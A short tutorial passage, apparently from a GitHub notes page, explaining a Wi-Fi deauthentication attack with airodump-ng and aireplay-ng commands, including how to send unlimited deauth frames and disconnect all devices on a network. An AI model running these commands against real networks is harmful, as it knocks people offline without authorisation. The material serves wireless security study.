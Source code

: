 The attack is performed by changing our MAC to Target MAC and sending Disconnect Request to the Router  
Then acting as the Router and send disconnect packet to Target  
This attack can be performed on all networks. No need to know the connection key. No need to connect to the network as well

````bash
# Sniff the Network to attack
airodump-ng --bssid <router-bssid> --channel <channel> <interface> 
aireplay-ng --deauth 0 -a <router-bssid> -c <target-bssid> <interface>
````

By using `0` as value for `--deauth` we are saying send infinite deauth packets to target. We can use a number to limit the amount of packets sent.  
If we do not use `-c` flag in deauth attack then all devices on the network will be disconnected
